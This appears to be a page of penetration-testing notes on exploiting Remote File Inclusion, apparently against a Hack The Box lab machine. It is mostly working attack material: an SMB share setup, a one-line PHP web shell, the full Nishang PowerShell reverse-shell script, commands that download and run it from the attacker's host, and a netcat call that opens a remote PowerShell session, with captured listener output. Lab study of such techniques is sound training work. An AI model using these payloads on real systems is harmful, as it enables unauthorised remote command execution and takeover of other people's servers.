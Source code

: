 # Remote File Inclusion

is similiar to LFI, but we can connect with our machine through it.

## SMB Server Connection

Let's create an local smb server on kali linux, which we can then parse in the URL and connect to/execute files on it.

Configuring confic smb server [profiles] 
```
nano /etc/samba/smb.conf
[htb]
   comment = Users profiles
   path = /srv/smb
   guest ok = yes
   browseable = yes
   create mask = 0600
   directory mask = 0700
```

Ur smb server is now named "htb".

Start it up.

```
systemctl start smbd
```

To test if RFI is possible, create an test.txt file inside the share path.
Start an listener

```
nc -lvnp 445
```

Request the file from the smb server in the RFI URL

```
curl http://10.129.229.6/blog/?lang=\\10.10.14.239\htb\test.txt
```

## Command Execution in RFI

Create shell.php file with following content in /srv/smb:

```
<?php system($_REQUEST['cmd']); ?>
```

Request the shell.php with an command of ur choice.

```
curl http://10.129.229.6/blog/?lang=\\10.10.14.239\htb\shell.php&cmd=whoami
```

## RCE using RFI

Use the following revshell ps script

```
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.239 -Port 1337
```

launch python server where u saved the revshell script.

```
python3 -m http.server 80
```

Request the ps script.

```
curl http://10.129.229.6/blog/?lang=\\10.10.14.239\htb\shell.php&cmd=powershell+wget+"http%3a//10.10.14.239/Invoke-PowerShellTcp.ps1"
```

Start up listener on 1337

```
nc -lvnp 1337
```

Soo now that we have an uploaded revshell file onto the target system, let's execute it with netcat.

We will have to put the netcat windows binary inside the smb share for this to work.

```
curl http://10.129.229.6/blog/?lang=\\10.10.14.239\htb\shell.php&cmd=\\10.10.14.239\htb\nc.exe+10.10.14.239+1337+-e+powershell
```

Gained RCE as user

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.239] from (UNKNOWN) [10.129.229.6] 49862
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\blog>
```
